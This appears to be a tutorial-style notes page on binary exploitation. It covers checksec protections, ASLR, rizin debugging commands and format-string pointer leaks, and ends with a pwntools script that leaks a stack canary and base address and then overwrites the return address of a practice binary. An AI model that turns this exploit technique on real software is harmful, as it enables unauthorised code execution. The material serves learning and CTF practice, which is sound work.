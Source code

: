 ```yaml
---
title: Binary Exploitation
description: Binary Exploitation is the process of finding vulnerabilities in the binary file.
tags:
    - Reverse Engineering
refs:
    - https://ir0nstone.gitbook.io/notes/
date: 2023-03-01
draft: false
---
```


## Prerequisites

This post uses “rizin” for dynamic analysis.  
And “pwntools” python package is useful for binary exploitation.

<br />

## Investigation

### Basic

```sh
file ./example
strings ./example

objdump -d ./example
# -M: type
objdump -M intel -d ./example
```

### Security Properties

First check the executable properties.

```sh
checksec --file=.example
```

- **RELRO**

    - **Partial RELRO** - We can read/write the global offset table.
    - **Full RELRO** - We can only read the global offset table. So we cannot overwrite GOT.
        
- **STACK CNARY**

    - **No canary found** - It’s vulnerable to buffer overflow.
        
- **NX**

    - **NX enabled** - We cannot execute custom shellcode from the stack.
        
- **PIE**

    - **No PIE** - The binary always starts at same address.

### ASLR (Address Space Layout Randomization) in Machine

ASLR is a security technique involved in preventing exploitation of memory corruption vulnerabilities.

```sh
cat /proc/sys/kernel/randomize_va_space
2
```

- **0** - The address space is NOT randomized.
- **1** - The address space is randomized.
- **2** - The address space is randomized, and data segment as well.

<br />

## Debugging

### 1. Start Debugger

```sh
# Change permission for debugging
chmod +x example

# -d: Debug mode
rizin -d example
```

### 2. Analyzing

```sh
# Analyze all calls, references, emulation and applies signatures
[0x0000]> aaa
```

### 3. List functions

```sh
# List functions
[0x0000]> afl
[0x0000]> afl | grep main
```

### 4. Disassemble & Decompile Functions

```sh
# Disassemble the function
[0x0000]> pdf @ main
[0x0000]> pd @ main
# Disassemble the first 50 lines
[0x0000]> pd 50 @ main

# Decompile the function (the ghidra plugin required)
[0x0000]> pdg @ main
```

If you want to decompile using “pdg” command as above, you need to install the “rizin-plugin-ghidra” so install it by running the following command.

```sh
sudo apt install rizin-plugin-ghidra
```

<br />

## Format String (Pointer)

```sh
./example

Type something:
>> %2$p
The result is 0x555a18ae6365
```

### Exploitation Examples

```sh
# Brute force pointer
for i in {20..-1}; do echo \%$i\$p | ./example; done

# Brute force pointer & cut & hexdump (reverse) & reverse
# cut -c 15-: Select only N characters (e.g. 15 characters)
# xxd -ps: Output in plain hexdump style
# xxd -r: Reverse operation. Convert hexdump into binary
# rev: Reverse lines characterwise
(for i in {11..6..-1}; do echo \%$i\$p | ./example; done) | grep "The result is" | cut -c 15- | xxd -ps -r | rev
```

<br />

## Bypass Canary Protection

```python
from pwn import *
import re

context.update(arch="amd64", os="linux")

filepath = "./example"
elf = context.binary = ELF(filepath)

p = process(filepath) # p = remote('example.com', '1337') for remote connection

# We need to find the stack canary. This address ends with "00".
# To find it, execute p.sendline(b"%p %p %p %p ...").
p.sendline(b"%10$p %13$p")
p.recvuntil(b"result: ")
leaked = p.recvline().split()
print(leaked)
base = int(leaked[0], 16) - 0xa90
canary = int(leaked[1], 16)
elf.address = base

payload = b"A"*24
payload += p64(canary)
payload += b"B"*8
payload += p64(base + 0x6fe)
payload += p64(elf.sym["target_func"])

p.sendline(payload)
p.interactive()
```
